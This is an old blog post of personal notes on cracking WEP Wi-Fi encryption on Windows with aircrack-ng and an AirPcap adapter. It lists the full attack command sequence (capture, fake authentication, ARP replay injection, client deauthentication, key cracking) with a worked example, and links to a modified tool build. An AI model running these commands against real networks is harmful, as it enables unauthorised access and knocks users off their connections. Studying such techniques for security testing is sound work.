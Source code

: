```yaml
---
id: 146
title: 'Notes: Cracking WEP on the Windows command line with Aircrack-ng and AirPcap Tx'
date: 2007-09-12T19:37:34+00:00
author: Phil Wiffen
excerpt: |
layout: post
guid: http://www.kabri.uk/2007/09/12/notes-cracking-wep-with-aircrack-ng-and-airpcap-tx/
permalink: /2007/09/12/notes-cracking-wep-with-aircrack-ng-and-airpcap-tx/
ratings_users:
  - "1"
  - "1"
  - "1"
  - "1"
  - "1"
ratings_score:
  - "5"
  - "5"
  - "5"
  - "5"
  - "5"
ratings_average:
  - "5"
  - "5"
  - "5"
  - "5"
  - "5"
aktt_notify_twitter:
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
  - 'no'
categories:
  - Networking
  - Security
  - Wi-Fi
  - Windows
tags:
  - aircrack-ng
  - airpcap
  - airpcap tx
  - cracking
  - wep
  - Windows
---
```

![ARP injection in Windows using AirPcap Tx](http://www.kabri.uk/wp-content/uploads/2007/09/airpcap-arp-injection.png)

Finally, I&#8217;ve had time to write down my notes on using aircrack-ng with the [Airpcap Tx adapter](http://www.crownhill.co.uk/product.php?prod=1779&ref=wireless-analysis) in Windows. Before you read on, please be aware that this isn&#8217;t meant to be a guide or tutorial, it&#8217;s **just my notes**. Thanky 🙂

### Basics

Start capturing:

`</p>
<pre>airodump-ng \\.\airpcap00 airpcap CHANNELNUMBER mycapturefile</pre>
<p>`

Fake auth:

`</p>
<pre>aireplay-ng --fakeauth 0 -e "MYSSID" -a BSSIDMAC -h AIRPCAPMAC \\.\airpcap00</pre>
<p>`

Start attack:

`</p>
<pre>aireplay-ng --arpreplay -b BSSIDMAC -h CLIENTMAC \\.\airpcap00</pre>
<p>`

Deauth (if we need ARPs):

<span style="font-family: 'Courier New'; line-height: 18px; white-space: pre;">aireplay-ng &#8211;deauth 3 -a BSSIDMAC -c CLIENTMAC \\.\airpcap00</span>

Start cracking:

`</p>
<pre>aircrack-ng -z mycapturefile.cap</pre>
<p>`

Worked example:

    airodump-ng.exe \\.\airpcap00 airpcap 11 mycapturefile
    aireplay-ng --fakeauth 0 -e "WEP" -a 00:a0:c5:9d:d5:50 -h 00:02:72:67:92:8a \\.\airpcap00
    aireplay-ng --arpreplay -b 00:a0:c5:9d:d5:50 -h 00:90:4b:eb:9b:36 \\.\airpcap00
    aireplay-ng --deauth 3 -a 00:a0:c5:9d:d5:50 -c 00:90:4b:eb:9b:36 \\.\airpcap00
    aircrack-ng -z mycapturefile.cap

### Download

I&#8217;ve prepared a special release of the aircrack-ng tools originally prepared by CACE Technologies on the AirPcap CDROM. It replaces the new aireplay-ng.exe with an older one which, in my tests, appears to perform better.  
[  
**Download the release of aircrack-ng for AirPcap Tx**](http://www.kabri.uk/wp-content/uploads/2007/09/aircrack-ng-09-twistedethicscom-edition.zip "aircrack-ng release 0.9")